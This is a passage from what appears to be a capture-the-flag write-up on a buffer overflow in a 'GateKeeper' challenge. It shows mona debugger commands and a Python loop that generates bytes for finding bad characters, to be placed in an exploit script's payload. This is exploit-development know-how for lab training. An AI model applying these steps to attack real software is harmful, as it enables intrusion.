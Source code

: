 ```shell
!mona config -set workingfolder c:\mona\%p
```

- then we can generate an array of bytes, excluding the null byte and it is saved in a file bytearray.txt

```shell
!mona bytearray -b "\x00"
```

![](assets/GateKeeper_assets/Pasted%20image%2020231203140438.png)

- on our own machine we generate a set of bad characters using the script bellow that will be used for comparison

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

![](assets/GateKeeper_assets/Pasted%20image%2020231203135344.png)

- we the place it in the payload parameter of our script

![](assets/GateKeeper_assets/Pasted%20image%2020231203135414.png)
